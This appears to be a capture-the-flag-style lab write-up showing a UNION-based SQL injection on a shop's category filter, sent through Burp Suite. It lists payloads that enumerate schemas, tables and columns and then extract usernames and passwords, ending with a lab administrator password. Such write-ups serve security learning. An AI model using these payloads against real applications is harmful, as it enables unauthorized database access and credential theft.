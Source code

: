 ```yaml
---
custom_edit_url: null
sidebar_position: 5
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/17389135-4418-4ea2-ae39-a2090b538269)

Let's filter for `Food & Drink`.

![2](https://github.com/Knign/Write-ups/assets/110326359/3acbeb53-dddc-4da4-91f5-2bc59f501bbe)

Since we are proxying the traffic through Burp Suite, we can go to the `Proxy > HTTP History` tab to view this request.

![3](https://github.com/Knign/Write-ups/assets/110326359/9a966bb0-fc2d-4593-8ccb-664f1c73ba73)

Let's forward the request to the `Repeater` for further modification.

Once in the `Repeater`, let's set the `category` parameter to the following:

```
' UNION SELECT 'test'--
```

![4](https://github.com/Knign/Write-ups/assets/110326359/d529e09b-f739-4dfb-8914-6262cc7eb519)

Since the application returns an error, we know that the number of columns in the current query is more than 1.

Let's set the `category` parameter to the following:

```
' UNION SELECT 'test','test'--
```

![5](https://github.com/Knign/Write-ups/assets/110326359/702a663e-5d2c-4567-a099-603df0319b18)

Now that we know the current query has two columns, we can start enumerating the databases.

```
' UNION SELECT schema_name, NULL FROM information_schema.schemata--
```

![20](https://github.com/Knign/Write-ups/assets/110326359/26eee849-a691-494f-a1cc-009f5efcaed9)

Now let's enumerate the tables present in the `public` database by setting the `category` parameter to:

```
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='public'--
```

![21](https://github.com/Knign/Write-ups/assets/110326359/091474f0-7311-44ba-8c9f-167342b6df20)

Next, we need to find the columns present in the `users_bfbtjz` table.

We can do that by setting the `category` parameter to the following:

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_bfbtjz'--
```

![22](https://github.com/Knign/Write-ups/assets/110326359/c7dde1ee-5cea-486e-a36a-93ab75ba18c2)

We can now retrieve the usernames and password from the `username_ylkdae` and `password_sdbuqk` columns respectively.

For that we have to set the `category` parameter to the following:

```
' UNION SELECT username_ylkdae, password_sdbuqk FROM users_bfbtjz--
```

![23](https://github.com/Knign/Write-ups/assets/110326359/b0ac680b-6b39-409c-873e-8a87504d6d10)

We can now login as the administrator using the following credentials:


| Username | Password |
| -------- | -------- |
| administrator         | x3lp8yt4oyymkeu9bppm         |

![9](https://github.com/Knign/Write-ups/assets/110326359/6381a1db-5933-4003-a0fd-2b0d2c04a375)

We have solved the lab.

![10](https://github.com/Knign/Write-ups/assets/110326359/c37e5f54-5ea6-477b-9ed7-6ec71fabeb17)
